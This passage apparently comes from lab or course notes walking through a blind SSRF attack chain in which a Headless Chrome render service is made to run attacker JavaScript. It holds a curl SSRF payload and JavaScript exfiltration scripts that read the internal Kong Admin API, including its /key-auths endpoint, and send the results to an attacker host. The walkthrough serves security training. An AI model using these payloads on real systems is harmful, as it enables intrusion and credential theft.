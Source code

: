 ## Understanding Headless Chrome

Initially, this might seem like another SSRF vulnerability but Headless Chrome is essentially a full browser without a UI.
The headless browser should still execute any JavaScript functions as it loads a web page.

If it does, we have the ability to run arbitrary JavaScript from the browser that is running on the remote server, which would give us the ability to extract data from other internal pages or services, send POST requests, and interact with the other internal resources in many different ways.

We can test this theory by hosting the following HTML webpage on our apache server:

```html
<html>
<head>
<script>
function runscript() {
    fetch("http://192.168.118.3/itworked");
}
</script>
</head>
<body onload='runscript()'>
<div></div>
</body>
</html>
```

Since the application does not return the page loaded with the SSRF vulnerability, we need another way to determine if the browser executes JavaScript.
Our JavaScript function uses _fetch()_ to make a call back to our Kali host.
The _onload_ event in the body tag calls our function. After placing this file in our webroot, let's use the SSRF vulnerability to call the render service pointed at this file:

![](../../03.%20Screenshots/t9-ss24.png)

Making the following curl request:

```sh
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.5:9000/api/render?url=http://<attacker IP>/hello.html"}' http://apigateway:8000/files/import
```

We see the following logs in our apache log file:

```ts
192.168.225.135 - - [12/Dec/2022:14:04:05 -0500] "GET /hello.html HTTP/1.1" 200 485 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36"

192.168.225.135 - - [12/Dec/2022:14:04:05 -0500] "GET /itworked HTTP/1.1" 200 266 "http://192.168.119.225/hello.html" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.0 Safari/537.36
```

The first entry lists the hello.html file that we used in the call to the Render API.
The second entry is from the JavaScript function. We have verified we can execute JavaScript in the Headless Chrome browser.

Thus, the attack chain is as follows:

![](../../03.%20Screenshots/t9-ss25.png)

The attack flow is as follows:
1. We make a curl request with the SSRF payload
2. The Kong API Gateway proxies our request to the Files service endpoint on the Directus host.
3. The Directus application takes the value of the _url_ parameter(the render service in this case) and sends a GET request to that URL.
4. The Render service handles the GET request and reads the _url_ parameter out of the URL and sends a GET request to that URL using Headless Chrome.
5. The browser loads the HTML page from our attacker machine and executes the JavaScript, which makes a second GET request to our attacker machine.
6. Finally, the render service passes the result to the file service, however, since we're not authenticated, the reply shows us that we're forbidden.

## Blind SSRF to Simple SSRF

To turn our blind SSRF into a normal one and exfiltrate data, we will use JavaScript.
We'll attempt to use JavaScript to call the Kong Admin API from inside the network.
This might work because, the containers seem to have network connections that allow internal communication between themselves on ports that are not exposed externally.
This is evidenced by the SSRF being able to access port 8001 on (what we perceive to be) the Kong API Gateway host.

If the environment is running in a docker, the default settings allow for all ports on all containers to inter-communicate with each other.
For a port to be accessed from the outside, it needs to be published explicitly.

We will start by creating a script that will make a request to the Kong Admin API.
If the CORS are permissive enough, we will be able to access the response body, through the JavaScript.
If not, we will have to look at the documentation to see what we can do without reading the response.
The script will be as follows:

```JavaScript
function exfiltrate() {
    fetch("http://172.16.16.4:8001")
    .then((response) => response.text())
    .then((data) => {
        fetch("http://<attacker IP>/callback?" + encodeURIComponent(data));
    }).catch(err => {
        fetch("http://<attacker IP>/error?" + encodeURIComponent(err));
    }); 
}
```

When we check our access logs, we see the following:

![](../../03.%20Screenshots/t9-ss26.png)

URL decoding the data and then using a js beautifier, we get loads of data:

![](../../03.%20Screenshots/t9-ss27.png)

We get the username and password for the API, but this isn't useful as the password is hidden.
Going through the documentation of the Kong API, we see that we can get the user key, with the /key-auths end point. Thus we update our exfiltration script as follows:

```JavaScript
function exfiltrate() {
    fetch("http://172.16.16.4:8001/key-auths")
    .then((response) => response.text())
    .then((data) => {
        fetch("http://<attacker IP>/callback?" + encodeURIComponent(data));
    }).catch(err => {
        fetch("http://<attacker IP>/error?" + encodeURIComponent(err));
    }); 
}
```

And, we get the following reply:

![](../../03.%20Screenshots/t9-ss28.png)

With this, we can now proceed to decode and beautify the data, and extract the key:

![](../../03.%20Screenshots/t9-ss29.png)

We can now use this API key, to login, and explore the authenticated part of the application.
